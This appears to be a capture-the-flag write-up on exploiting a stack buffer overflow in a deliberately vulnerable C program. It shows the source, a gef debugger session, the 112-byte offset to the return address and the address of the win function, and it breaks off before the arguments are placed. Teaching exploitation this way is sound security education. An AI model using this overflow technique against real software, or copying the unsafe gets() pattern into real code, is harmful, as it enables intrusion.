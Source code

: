 ## Description
Control the return address and arguments This time you'll need to control the arguments to the function you return to!

As always, let's take a look at the code first:
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
Here we must do something simmilar to the past challenge, but in this case, there are 2 arguments that we need to pass to the function 'win'. `arg1=0xCAFEF00D` and `arg2=0xF00DF00D`
So, let's first see the size of our input to overflow the stack buffer and overwrite the return address. Then we'll make the program return to 'win' with the specified arguments.

Let's set the breakpoint after the input reading, and see how the stack is at that point.
```
gef➤  b *vuln+34
Breakpoint 1 at 0x804935a
gef➤  r
Starting program: /home/mfumega/Documents/challenges/vuln
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Please enter your string:
AAAABBBB

Breakpoint 1, 0x0804935a in vuln ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────── registers ───
$eax   : 0xffffce1c  →  "AAAABBBB"
$ebx   : 0x0804c000  →  0x0804bf10  →  0x00000001
$ecx   : 0xf7fa19c0  →  0x00000000
$edx   : 0x1
$esp   : 0xffffce00  →  0xffffce1c  →  "AAAABBBB"
$ebp   : 0xffffce88  →  0xffffcea8  →  0xf7ffd020  →  0xf7ffda40  →  0x00000000
$esi   : 0xffffcf74  →  0xffffd14d  →  "/home/mfumega/Documents/challenges/vuln"
$edi   : 0xf7ffcb80  →  0x00000000
$eip   : 0x0804935a  →  <vuln+0022> add esp, 0x10
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
──────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffce00│+0x0000: 0xffffce1c  →  "AAAABBBB"    ← $esp
0xffffce04│+0x0004: 0x0000001a
0xffffce08│+0x0008: 0xf7fa0da0  →  0xfbad2887
0xffffce0c│+0x000c: 0x08049348  →  <vuln+0010> add ebx, 0x2cb8
0xffffce10│+0x0010: 0xf7fa0da0  →  0xfbad2887
0xffffce14│+0x0014: 0xf7fa0de7  →  0xfa19b40a
0xffffce18│+0x0018: 0x00000001
0xffffce1c│+0x001c: "AAAABBBB"
─────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ───
    0x8049351 <vuln+0019>      lea    eax, [ebp-0x6c]
    0x8049354 <vuln+001c>      push   eax
    0x8049355 <vuln+001d>      call   0x80490f0 <gets@plt>
 →  0x804935a <vuln+0022>      add    esp, 0x10
```
And here in the stack, we can see the input 'AAAABBBB' and we can see the return address pointing to main '0x080493dd'.

```
gef➤  x/50wx $esp
0xffffce00:     0xffffce1c      0x0000001a      0xf7fa0da0      0x08049348
0xffffce10:     0xf7fa0da0      0xf7fa0de7      0x00000001      0x41414141
0xffffce20:     0x42424242      0x00000000      0xf7df549d      0xf7f9ea60
0xffffce30:     0xf7fa0da0      0xf7fa0000      0xffffce78      0xf7de942b
0xffffce40:     0xf7fa0da0      0x0000000a      0x0000001a      0xf7e55801
0xffffce50:     0xf7d83e54      0x000007d4      0xf7fa0e3c      0x0000001a
0xffffce60:     0xffffcea8      0xf7fd9004      0x00000000      0x0804c000
0xffffce70:     0xffffcf74      0xf7ffcb80      0xffffcea8      0x080493d5
0xffffce80:     0x0804a063      0x0804c000      0xffffcea8      0x080493dd
0xffffce90:     0xffffced0      0xf7fbe66c      0xf7fbeb10      0x000003e8
0xffffcea0:     0xffffcec0      0xf7fa0000      0xf7ffd020      0xf7d97519
0xffffceb0:     0xffffd14d      0x00000070      0xf7ffd000      0xf7d97519
0xffffcec0:     0x00000001      0xffffcf74
gef➤
```

By calculating the offset as before, we know that our input should be 112 bytes until the return address. So if we input 112 'A' and 4 letters 'B', the program will attempt to jump to 0x42424242.

Let's replace that 4 'B' with the actual address of 'win'.
```
gef➤  print win
$1 = {<text variable, no debug info>} 0x8049296 <win>
gef➤
```
And now, we must call the win function, and pass the arguments we mentioned before. To do that, we'll just send the two arguments right aftet we jump to the function.

First let's run the program in debug mode with `p = gdb.debug(binary_path)`, so we can know where the actual values that 'arg1' and 'arg2' are, and their values.
